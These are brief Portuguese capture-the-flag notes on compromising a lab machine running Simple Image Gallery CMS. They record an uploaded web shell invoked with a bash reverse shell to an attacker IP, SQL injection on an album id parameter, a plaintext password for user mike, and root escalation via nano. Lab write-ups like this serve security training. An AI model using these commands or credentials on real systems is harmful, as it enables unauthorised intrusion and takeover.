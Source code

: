 Enumeração dos serviços:
![[Pasted image 20240126112654.png]]
Exploit do CMS Simple Image Gallery:
https://www.exploit-db.com/exploits/50214


http://10.10.224.196/gallery/uploads/1706483700_TagoxqanwzqgxdxrjciLetta.php?cmd=/bin/bash%20-c%20%27bash%20-i%20%3E%20/dev/tcp/10.9.58.140/443%200%3E%261%27

Hash do admin encontrado explorando SQLi no parâmetro id do menu de albuns do site.

Movimentação lateral com senha do usuário mike encontrado no histórico de comandos através do linpeas.

mike:b3stpassw0rdbr0xx

Escalação de privilégio através do nano, utilizado por um script com permissão root.


